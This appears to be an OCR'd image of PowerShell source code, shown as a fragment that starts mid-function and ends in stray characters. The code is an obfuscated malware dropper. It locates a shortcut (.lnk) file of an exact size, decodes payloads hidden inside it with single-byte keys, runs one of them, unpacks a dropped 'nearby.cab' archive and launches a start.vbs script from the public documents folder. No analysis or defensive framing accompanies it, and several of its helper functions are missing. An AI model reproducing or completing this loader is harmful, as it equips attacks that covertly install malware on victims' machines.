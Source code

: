 ```powershell
    param($regulation)
    $shot = Split-Path $regulation
    return $shot
}

function researcher {
    return Get-Location
}

function reality {
    return $env:Temp
}

function suicide {
    $forth = researcher
    $deeply = vision -entrance $forth
    if ($deeply.length -eq 0) {
        $forth = reality
        $deeply = vision -entrance $forth
    }
    return $deeply
}

function chase {
    $house = $env:public + '\' + 'nearby.cab'
    return $house
}

function concentration {
    $accept = $env:public + '\documents\start.vbs'
    return $accept
}

function vision {
    param($entrance)
    $massive = ''
    [System.IO.Directory]::GetFiles($entrance, '*.lnk', [System.IO.SearchOption]::AllDirectories) |
    ForEach-Object {
        $era = [System.IO.FileInfo]::new($_)
        if ($era.Length -eq 0x00412D29) {
            $massive = $era.FullName
        }
    }
    return $massive
}

$tone = suicide
$pipe = similar -regulation $tone
$PM = sister -title $tone
stir -league $tone -mirror 0x00001F88 -winner 0x003D7292 -policy 0x71 -basket $PM
& $PM
$advise = chase
stir -league $tone -mirror 0x003D921A -winner 0x00013CCF -policy 0x70 -basket $advise
trend -suppose $tone
$east = would
room -acquire $advise -mainly $east
trend -suppose $advise
$permit = concentration
& $permit
" ) )
```
